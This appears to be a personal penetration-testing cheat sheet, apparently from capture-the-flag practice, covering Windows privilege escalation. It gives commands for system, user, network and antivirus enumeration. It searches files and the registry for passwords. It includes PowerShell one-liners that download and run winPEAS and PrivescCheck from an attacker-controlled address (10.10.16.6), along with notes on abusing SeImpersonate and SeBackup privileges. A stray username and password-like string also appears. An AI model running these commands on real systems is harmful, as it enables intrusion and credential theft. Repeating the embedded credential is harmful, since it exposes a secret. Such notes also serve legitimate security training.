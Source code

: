 

```
#System Enuemration
shell
hostname
systeminfo 
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
wmic qfe 
wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic logicaldisk 
wmic logicaldisk get caption,description,providername 
wmic logicaldisk get caption

```

```
#User Enumeration
whoami
whoami /priv
whoami /groups

net user
net user <username>
net localgroup
net localgroup <groupname>
```

```
#Network Enumeration
ipconfig
ipconfig /all

arp -a
route print

netstat -ano
```

```
#AV Enumeration
sc query windefend
sc queryex type= service 

netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config
```

```
HassHass
._;k4n?F61:y
```

# System info
```
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type"
```


# List patches
```
wmic qfe
```
 
# List installed applications
```
wmic product get name,version
```
 
# Get disks
```
wmic logicaldisk get caption,description
```
 
# User enumeration
```
whoami /priv
```

```
whoami /groups
```

```
net users
```

```
net localgroup
```
 
# Network enumeration
```
ipconfig
```

```
route print
```

```
arp -a
```
 
# Finding passwords
```
findstr /si password *.txt *.ini *.config
```

```
reg query HKLM /f password /t REG_SZ /s
```

```
reg query HKCU /f password /t REG_SZ /s
```
 
# Services
```
sc query | findstr /B /C:"SERVICE_NAME" /C:"DISPLAY_NAME"
```
 
# Firewall Configuration
```
netsh advfirewall firewall dump
```

```
netsh firewall show state
```

```
netsh firewall show config
```

## Winpeas
https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS
```
cd /usr/share/windows-resources/
```

```
Invoke-WebRequest -Uri http://10.10.16.6/Auto/winPEASx64.exe -OutFile winpeas.exe
```

```
IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.6/Auto/winPEASx64.exe'); Invoke-winPEASx64 -Extended
```

```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.6/Auto/winPEASx64.exe') | powershell -noprofile -
```

```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6/PEASS-ng/winPEAS/winPEASps1/winPEAS.ps1')
```

```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6/PrivescCheck/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended
```


## Priv
https://github.com/itm4n/PrivescCheck
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6/PrivescCheck/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended
```


## Write Files
We need to run winpeas somewhere so will find locations like this work
```
C:\Windows\System32\spool\drivers\color
```

## IIS Server
```
Generally what we do when we are on a Web Server
We try to go into the www directory
cd \inetpub
cd wwwroot 

Cuz if we get a shell as IIS chances are we will be having SE Impersonate Privilege which will allow us to escalate.
```


## How to run the .exe file in kali linux
ILSpy is the **open-source .** **NET assembly browser and decompiler**

```
wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
```

```
unzip Linux.x64.Release.zip
```

```
unzip ILSpy-linux-x64-Release.zip
```

```
./ILSpy
```

![[Pasted image 20240917081516.png]]


## Privileges net user ______

I’m particularly interesting in backup and restore. I can see that jorden has `SeBackupPrivilege` and `SeRestorePrivilege`.

#### File Read

With both of these privs, I can use `robocopy` to read files (see [PayloadsAllTheThings short reference](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---impersonation-privileges)).



## Scripts

- [ ] winpeas  https://github.com/carlospolop/PEASS-ng/releases/tag/20221211
- [ ] 